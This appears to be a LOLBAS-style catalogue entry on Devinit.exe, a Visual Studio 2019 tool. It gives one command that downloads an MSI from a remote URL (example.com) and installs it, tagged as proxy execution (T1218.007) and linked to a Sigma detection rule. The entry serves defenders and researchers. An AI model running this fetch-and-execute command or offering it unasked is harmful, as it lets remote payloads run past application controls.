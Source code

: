 ```yaml
---
Name: Devinit.exe
Description: Visual Studio 2019 tool
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: devinit.exe run -t msi-install -i https://example.com/out.msi
    Description: Downloads an MSI file to C:\Windows\Installer and then installs it.
    Usecase: Executes code from a (remote) MSI file.
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\<version>\Community\Common7\Tools\devinit\devinit.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\<version>\Community\Common7\Tools\devinit\devinit.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_devinit_lolbin_usage.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1460815932402679809
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

